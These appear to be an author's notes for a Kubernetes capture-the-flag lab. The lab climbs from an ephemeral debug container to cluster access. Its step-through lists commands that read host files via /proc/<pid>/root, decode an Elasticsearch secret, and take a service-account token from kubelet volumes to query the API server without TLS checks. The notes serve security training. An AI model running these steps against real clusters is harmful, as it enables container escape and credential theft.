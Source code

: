# Capture the Flag - TBD (ephemerial container to cluster admin)

## Overview

Compromised company - Coastline Data (CD)

## Notes

```bash
gcloud container clusters create kgw-ctf2023-testing --enable-autoupgrade --num-nodes=2 --cluster-version=1.24.8-gke.2000
```

```bash
gcloud container clusters get-credentials kgw-ctf2023-testing
```

### Ephemeral Container Attachment

```bash
kubectl debug -it --attach=false -c debugger --image=ttl.sh/kctl-48fg-43fasf:6h $POD -n coastline
```

```bash
kubectl attach -it -c debugger $POD -n coastline
```


### Elastic Search

> took a minute and half for the operator to deploy ES

```bash
kubectl get secret coastline-es-elastic-user -o go-template='{{.data.elastic | base64decode}}'
```

### TBD

* Remove master-0 from pv (done)
* operator scheduled on node (done)
* another deployment with sharepidnamespace false (done)
* token request api (get list sa) (done)
* couldn't get the sa to work so I've added access to service accounts and use their tokens (log)
* change daemonset name for coastline (done)

- apiGroups:
  - authentication.k8s.io/v1
  resources:
  - serviceaccount/token
  verbs:
  - create

/proc/18/root/host/var/lib/kubelet/

## Step through

kubectl get pods -n coastline
export POD=data-burrow-dev-<uid>
kubectl debug -it --attach=false -c debugger --image=<image> $POD -n coastline
kubectl attach -it -c debugger $POD -n coastline
#attached to pod
cat /proc/<hydrelaps-pid>/root/host/root/flag.txt
cd /proc/19/root/host/var/lib/kubelet/pods/<uid>/volumes/kubernetes.io~projected/kube-api-access-<uid>/
export TOKEN=$(cat token)
env #for api-server ip
kubectl get pods -n kube-system --token=$TOKEN --server=https://<server-ip>:443 --insecure-skip-tls-verify
